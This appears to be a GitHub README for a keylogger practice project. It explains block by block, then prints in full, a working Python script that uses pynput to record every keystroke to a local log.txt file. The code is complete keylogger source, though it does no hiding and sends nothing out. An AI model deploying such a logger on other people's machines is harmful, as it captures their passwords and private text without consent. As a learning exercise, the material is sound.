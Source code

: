 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script uses the pynput library to listen for keyboard events. The on_press function is called whenever a key is pressed, and it appends the pressed key to a global log list. The key is then written to a file called log.txt.
<br />


<h2>Environments Used </h2>

- <b>Windows 11</b>

<h2>Program Walkthough Code:</h2>

<b>This first block imports the necessary modules from the pynput library. The pynput library allows for control and monitoring of keyboard and mouse inputs.</b>

```python
import pynput
from pynput import keyboard
```
<b>This block defines the on_press function which will be called every time a key is pressed. The function takes in a key argument which is the key that was pressed. The function first tries to get the char attribute of the key which will give the character representation of the key. If this fails, it means that the key pressed is not a character, so it checks if it's a space and assigns the value " " to the current_key variable. If it's not a space it assigns the key name to the current_key variable.</b>

```python
# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
```            
<b>This line appends the current key to a global variable named log. This variable stores all the keys pressed.</b>

```python
 # append the current key to a global variable storing the log
    log.append(current_key)
```

<b>This block writes the contents of the log variable to a file named "log.txt". It opens the file in write mode, and for each key stored in the log variable, it removes the single quotes from the key and checks if the key is a space or not. If it's a space, it writes a space to the file. If it's not a space, it writes the key to the file.</b>

```python
 # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)
```

<b>This block starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.</b>

```python
# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```    

<b> The final result should look like this</b>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
